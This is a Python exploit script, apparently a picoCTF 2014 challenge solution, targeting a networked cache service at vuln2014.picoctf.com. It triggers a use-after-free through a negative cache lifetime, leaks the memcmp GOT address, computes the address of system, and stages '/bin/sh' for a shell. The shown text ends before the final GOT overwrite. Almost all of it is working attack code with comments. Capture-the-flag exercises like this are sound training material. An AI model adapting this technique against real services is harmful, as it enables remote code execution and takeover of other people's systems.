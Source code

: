 ```python
def cache_set(f, key, value, lifetime):
    f.write(chr(CACHE_SET))
    write_string(f, key)

    status = ord(f.read(1))
    if status == kCacheFull:
        return False
    assert status == kFound

    write_string(f, value)
    f.write(pack4(lifetime))
    return True

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('vuln2014.picoctf.com', 4548))
f = s.makefile('rw', bufsize=0)

# Command to be executed later, once we've overwritten memcmp@plt.
cmd = '/bin/sh\x00'

# Add an entry to the cache; we will use this command later to spawn the shell. 
cache_set(f, cmd, "payload", 1000)

# Add an entry with a negative lifetime. This will fool cache_lookup, because it only checks for zero:
'''
    // Skip expired cache entries.
    if (entry->lifetime == 0) {
      continue;
    }
'''
cache_set(f, 'keyAAAA', 'AAAA____', 0xffffffff)

# Request that value, causing it to be deleted from cache
print cache_get(f, 'keyAAAA')

'''
// This is how the string struct looks like:
struct string {
  size_t length;
  size_t capacity;
  char *data;
};
'''
# Now, we request the value of a key called '\x04\x00\x00\x00\x00\x00\x00\..."
# but this is read into the old "value" struct (used to be 0x8, 0x0, *(AAAA____)),
# because malloc will re-use this address.
# Leak memcmp address @ 0x804b014
cache_get(f, pack4(4)+pack4(4)+pack4(0x804b014))

# This is read into the old "key" struct (used to be 0x7, 0x0, *(keyAAAA))
# We supply the address of 'printf', so the check will pass & we read whatever is at value->data
cache_get(f, pack4(6)+pack4(6)+pack4(0x8048310))

# Grab memcmp address:
addr_memcmp = unpack4(cache_get(f, 'printf'))
print "[+] Leaking memcmp address: {}".format(hex(addr_memcmp))

# Calculate system address:
addr_system = addr_memcmp - 0x142870 + 0x40100 
print "[+] Calculated system address: {}".format(hex(addr_system))

# Now we have to overwrite memcmp @ 0x804b014. The hints say we can do this with cache_set. 
```